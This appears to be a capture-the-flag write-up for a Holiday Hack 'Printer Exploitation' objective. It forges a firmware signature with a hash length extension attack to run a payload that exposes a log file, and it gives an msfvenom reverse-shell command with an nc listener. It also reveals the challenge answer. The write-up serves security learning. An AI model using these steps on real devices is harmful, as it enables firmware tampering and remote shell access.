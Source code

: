# Printer Exploitation

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [printer website](https://printer.kringlecastle.com/)<br/>
**Terminal hint**: -


## Objective

!!! question "Request"
    Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.

??? quote "Ruby Cyster"
    So first things first, you should definitely take a look at the firmware.<br/>
    With that in-hand, you can pick it apart and see what's there.<br/>
    Did you know that if you append multiple files of that type, the last one is processed?<br/>
    Have you heard of [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)?<br/>
    If something isn't working, be sure to check the output! The error messages are very verbose.<br/>
    Everything else accomplished, you just might be able to get shell access to that dusty old thing!


## Hints

??? hint "Dropping Files"
    Files placed in `/app/lib/public/incoming` will be accessible under [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/).

??? hint "Hash Extension Attacks"
    [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.

??? hint "Printer Firmware"
    When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.


## Solution

### Reverse the firmware

We first need to understand what a firmware file looks like. So, download the [current firmware](../artifacts/objectives/o7/firmware-export.json) from the [printer website](https://printer.kringlecastle.com), copy out the data in the JSON file's `firmware` field, BASE64-decode the data, and save it to its own `firmware-export.bin` file (line 1).  The `file` command tells us we're working with a ZIP file (line 2). Unpacking the archive reveals a `firmware.bin` executable (lines 3-4).

??? info "Parsing JSON data in the command line"
    [`jq`](https://stedolan.github.io/jq/) is a handy command-line JSON processor. You can use it to slice, filter, map, and transform structured JSON data with the same ease that tools like `sed`, `awk`, and `grep` let you manipulate text. `jq` isn't a requirement for this challenge, but it helps to turn the whole extraction process into an easy-to-use oneliner.

```shell linenums="1" title="Extracting the firmware"
cat firmware-export.json | jq -r '.firmware' | base64 -D > firmware-export.bin
file firmware-export.bin  # indicates this is a ZIP file
mv firmware-export.bin firmware-export.zip  # rename for clarity
unzip firmware-export.zip  # unpack archive
file firmware.bin  # indicates this is a 64-bit ELF binary
```

To create a valid firmware file we just reverse the above steps. Create an executable called `firmware.bin`, compress the file, copy the BASE64-encoded archive data to the `firmware` field in the JSON file. The last step is to add a valid signature to the JSON file, but unfortunately we're missing the necessary secret key.


### Ensuring signature validation

When uploading a firmware file, the printer will validate the signature by calculating a signature value using a secret key only it knows. If the calculated signature matches the value in the uploaded JSON file, the firmware is considered valid and the printer will execute the enclosed `firmware.bin` file. If the signature is invalid, we get the following error.

![Invalid signature](../img/objectives/o7/invalid_signature.png){ class=border }

Building a new firmware file means we also need a new signature, but how do we do that without the secret key? That question is answererd by the [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) hint, which also provides a handy [`Hash Extender`](https://github.com/iagox86/hash_extender) tool to automate the attack! :partying_face:

!!! quote "blog.skullsecurity.org"
    An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data.

    It turns out, Even though the attacker doesn't know the value of the prepended secret, he can still generate a valid hash for *{secret || data || attacker_controlled_data}*! This is done by simply picking up where the hashing algorithm left off; it turns out, 100% of the state needed to continue a hash is in the output of most hashing algorithms! We simply load that state into the appropriate hash structure and continue hashing.

Since we're appending our payload to valid firmware data in order to execute the Hash Extension attack, we don't need to worry about which of the 2 archives will be unpacked. Ruby Cister notes that *"if you append multiple files of that type, the last one is processed"*, which ensures our `firmware.bin` will be extracted and executed by the printer after successful validation.


### Creating the payload

For the payload we can keep it simple by using a [shell script](../tools/objectives/o7/payload-script.sh) or [binary](../tools/objectives/o7/payload-c.c) that copies `/var/spool/printer.log` to `/app/lib/public/incoming`, making it accessible from [https://printer.kringlecastle.com/incoming/](https://printer.kringlecastle.com/incoming/). Name the payload `firmware.bin`, make it executable using `chmod +x firmware.bin`, and compress the file using `zip payload-script.zip firmware.bin`.

We now have the original [`firmware-export.zip`](../artifacts/objectives/o7/firmware-export.zip) we extracted previously and our own [`payload-script.zip`](../tools/objectives/o7/payload-script.zip), which we both use as input for [`Hash Extender`](https://github.com/iagox86/hash_extender) to create the final combined payload and valid signature.

??? info "Compiling Hash Extender"
    The Hash Extender C code first needs to be compiled into a binary before you can use it. Clone the [Hash Extender repository](https://github.com/iagox86/hash_extender), then change into the `hash_extender` directory using `cd hash_extender`, and finally run `make` to compile the project into a `hash_extender` binary.

![Hash Extender](../img/objectives/o7/hash_extender.png)

[`xxd`](https://linux.die.net/man/1/xxd) will create a hex dump of our `payload-script.zip` file and `xargs` will then take that data and make it available to `hash_extender` as `append_data`. As an alternative to these commands you could also [update the C source](../tools/objectives/o7/hash_extender-append-file-fix.c) to support an `--append-file` parameter that simply takes a filename instead of file contents.


### Putting it all together

Use the signature (i.e., `893db6847b23ae0c4811b55e0ddab206072738b3d13d35431447c90ac8da98d1`) and BASE64 data from the previous step to create a new [`firmware-payload-script.json`](../tools/objectives/o7/firmware-payload-script.json) file and upload it to the printer. Once the upload finishes the printer will validate the JSON, decode the enclosed BASE64 data, validate the signature, unpack the last archive which contains our payload, and execute our `firmware.bin` shell script which copies `/var/spool/printer.log` to `/app/lib/public/incoming/crahan_printer.log`. We can now grab the printer log from [https://printer.kringlecastle.com/incoming/crahan_printer_new.log](https://printer.kringlecastle.com/incoming/crahan_printer_new.log).

![Printer log](../img/objectives/o7/printer_log.png){ class=border }

!!! done "Answer"
    `Troll_Pay_Chart.xlsx`

!!! note "Reverse shell<span id="reverse-shell"></span>"
    The example above uses a very simple payload to copy the file we need to a location we can access it from. But you can solve this challenge using a reverse shell as the payload as well. Only the payload creation part is different. All other steps remain exactly the same as outlined above.
    
    Create a simple reverse TCP shell payload using [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) by running `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=9085 -f elf > firmware.bin`. Next, set up a listener using `nc -lvp 9085` that will accept the incoming reverse shell connection. Finally, upload the new firmware file and watch the connection be established.

    In [`/app/lib/app.rb`](../artifacts/objectives/o7/app.rb) you'll find the `mybigsigningkey!` secret which is used by the printer to validate the firmware signature. In `/var/spool/` there's a [`birdknob.png`](../artifacts/objectives/o7/birdknob.png) picture of a... bird on a doorknob. But you can also leave [a note](https://twitter.com/joeammond/status/1470176441392418816) on the host for other players to find.

    ![Reverse shell](../img/objectives/o7/reverse_shell.png)
